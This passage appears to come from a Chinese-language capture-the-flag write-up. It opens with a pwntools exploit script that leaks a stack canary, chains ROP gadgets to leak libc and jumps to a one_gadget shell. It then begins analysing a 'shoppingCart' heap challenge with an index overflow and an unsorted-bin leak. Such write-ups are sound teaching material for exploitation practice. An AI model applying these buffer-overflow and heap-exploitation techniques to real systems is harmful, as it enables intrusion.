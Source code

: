```python
se(p64(0xbff94be43613e74a)+p64(0xa51848232e75d279))
ru('1'*0x19)
cookie='\x00'+p.recv(0x7)
ru('What`s your occupation?')
se('1'*255)
ru('Do you want to edit you introduce by yourself[Y/N]')
se('Y\n')

 

puts=0x400AB8
bss=0x603020+0x200
prdi=0x401573
prsi=0x401571
prbp=0x400bb0
leave=0x400d45
mread=0x400CC1
 
payload='a'*0x108+cookie
payload+=flat(bss-0x10,prdi,0x602F70,puts,prdi,bss-8,prsi,0x100,0x100,mread,leave)
 
sleep(0.5)
se(payload)
ru('a'*0x108)
ru('\n')
base=u64(p.recv(6)+'\x00\x00')-e.symbols['puts']
one_gadget=base+0x4526a

se(p64(one_gadget)+'\n')
print(hex(u64(cookie)))
 
p.interactive()
```

## shoppingCart
审计了一下，发现`edit`那里有个下标溢出，可以修改第一个`while`循环创建的那些结构

然后程序保护开得挺全的，那首先要leak出一个地址

`leak`的方法是

1. 创建两个`small bin chunk`
2. 删除第一个，这个时候第一个就进了`unsorted bin`
3. 创建一个`size`为0的`chunk`，实际返回的是大小为0x18的`chunk`，下面是截断的代码，因为read返回的是0，所以把`size`位给置0了，这样就能leak到libc的基址
```c
*((_BYTE *)*v1 + (signed int)read(0, *v1, size) - 1) = 0;
```

第一个循环建立的结构大概如下
```
+--------------------+      +------------------------+          +----------------------+
|                    |      |                        |          |                      |
|        A           +--->  |           B            +------->  |          C           |
|                    |      |                        |          |                      |
+--------------------+      +------------------------+          +----------------------+


     BSS段                            Heap                               BSS段

     index:  -17                                                      index: -37
```
那个index是随便编的，大概理解就行
